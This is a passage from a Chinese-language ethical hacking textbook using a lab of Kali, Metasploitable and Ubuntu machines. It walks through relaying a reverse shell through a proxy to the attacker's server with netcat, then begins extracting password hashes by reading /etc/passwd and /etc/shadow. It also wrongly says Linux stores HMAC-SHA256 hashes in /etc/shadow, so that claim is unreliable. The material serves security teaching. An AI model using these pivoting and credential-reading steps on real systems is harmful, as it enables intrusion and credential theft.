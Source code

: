 首先，反向 shell 将连接到私有局域网中的代理 IP 地址。当 shell 连接到代理并发送其第一条消息时，代理将从消息中提取数据 ➊，并在外部局域网上打开到黑客服务器的新 TCP 连接。代理将把来自私有局域网的 shell 数据转发到外部局域网，充当桥梁 ➋。代理还将监听来自外部局域网的流量，并将其转发到私有局域网中的 shell。太棒了！现在，你应该有一个连接私有局域网和外部局域网的双向桥梁。

现在，让我们测试一下代理。我们不再运行我们在 第四章中编写的 TCP 服务器代码，而是保持此测试轻量级。我们将使用 netcat (`nc`) 启动一个新的 TCP 服务器，该服务器在端口 (`p`) 5050 上监听（`l`）。我们还将启用详细标志（`v`），以打印出连接信息：

```
kali@kali:~$ nc -lvp 5050
```

接下来，将 *proxy.py* 文件复制到 Metasploitable 服务器并运行：

```
msfadmin@metasploitable:~$ python3 proxy.py 10.0.0.1 4040 <Kali IP address> 5050
```

现在，代理已经启动并运行，打开私有网络上的 Ubuntu 虚拟机。我们不再使用我们在 第四章中编写的反向 shell，而是使用 netcat 连接到代理。

```
victim@ubuntu:~$ nc 10.0.0.1 4040
```

在运行 netcat 的 Ubuntu 终端中输入短语 `**BOT Reporting For Duty**`。如果代理正常工作，它将把私有局域网的流量路由到你 Kali Linux 机器上的终端。

### 在 Linux 上提取密码哈希

一旦你获得了机器的访问权限，你可以尝试从机器的内存中提取用户凭证，用于登录其他机器并在网络中移动。本节介绍了如何使用特权提升技术从 Linux 机器中提取用户名和密码哈希。

#### *Linux 存储用户名和密码的位置*

操系统将用户名存储在*/etc/passwd* 文件中，任何人都可以读取该文件。文件名具有误导性，因为它不包含任何密码。不过，我们仍然可以从这个文件中获取有用的信息，例如账户是否需要密码。运行以下命令查看该文件的内容：

```
kali@kali:~$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
```

每个条目的属性由冒号分隔，格式如下：

```
username:has_password:user_id:group_id:user_info:shell_path
```

第二个属性 `has_password` 指示用户是否具有密码。该属性中的 `x` 表示用户账户有密码，空字段则表示是一个不需要密码的访客账户。

那么，操作系统将密码存储在哪里呢？毕竟，它必须保留密码的副本，以便与用户登录时输入的值进行比较。Linux 不存储明文密码。相反，它将密码的 HMAC-SHA256 哈希存储在文件*/etc/shadow*中。当用户登录时，Linux 会对密码进行哈希运算，将其与存储的哈希进行比较，如果匹配，则授予访问权限。

你可以通过读取*/etc/shadow* 文件来提取这些密码哈希；然而，如通过运行`**ls**`命令并使用`**-l**`选项所见，你需要 root 权限才能执行此操作：

```
msfadmin@metasploitable:~$ ls -l /etc/shadow

-rw-r-----  1 root     shadow   1233 2042-05-20 17:30 shadow
```
